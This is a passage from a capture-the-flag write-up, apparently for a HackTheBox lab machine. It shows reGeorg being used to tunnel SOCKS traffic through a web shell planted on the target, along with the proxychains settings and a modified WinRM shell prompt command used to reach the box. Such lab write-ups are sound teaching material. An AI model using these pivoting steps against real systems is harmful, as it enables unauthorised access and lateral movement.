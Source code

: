 ```

root@kali# python /opt/reGeorg/reGeorgSocksProxy.py -p 1080 -u http://admin.hackback.htb/2bb6916122f1da34dcd916421e531578/tun.aspx

                     _____
  _____   ______  __|___  |__  ______  _____  _____   ______
 |     | |   ___||   ___|    ||   ___|/     \|     | |   ___|                                       
 |     \ |   ___||   |  |    ||   ___||     ||     \ |   |  |                                                                        
 |__|\__\|______||______|  __||______|\_____/|__|\__\|______|
                    |_____|                      
                    ... every office needs a tool like Georg

  willem@sensepost.com / @_w_m__       
  sam@sensepost.com / @trowalts
  etienne@sensepost.com / @kamp_staaldraad       

[INFO   ]  Log Level set to [INFO]                                                                  
[INFO   ]  Starting socks server [127.0.0.1:1080], tunnel at [http://admin.hackback.htb/2bb6916122f1da34dcd916421e531578/a.aspx]
[INFO   ]  Checking if Georg is ready
[INFO   ]  Georg says, 'All seems fine'

```

#### Connect over WinRm

First I’ll make sure that my `/etc/proxychains.conf` file is configured to use the same port I gave reGeorg, 1080, and that quite mode is on so I don’t have to see all the `|S-chain|-<>-127.0.0.1:1080-<><>-127.0.0.1:5985-<><>-OK`:

```

root@kali# cat /etc/proxychains.conf | grep -vE "^#" | grep .
strict_chain
quiet_mode
proxy_dns 
tcp_read_time_out 15000
tcp_connect_time_out 8000
[ProxyList]
socks4  127.0.0.1 1080

```

Next I’ll edit [Alamot’s WinRm ruby script](https://github.com/Alamot/code-snippets/blob/master/winrm/winrm_shell_with_upload.rb) with the info for this box, pointing it at localhost, the place I want it to connect once I’m through the proxy. It’s also going to be very useful to have the version of the script that includes file upload. I did make one update to the script. Where it generates the prompt, if I am inside a hidden directory, the `gi` command fails. I’ll add `-force` to fix that: `output = shell.run("-join($id,'PS ',$(whoami),'@',$env:computername,' ',$((gi -force $pwd).Name),'> ')")`:
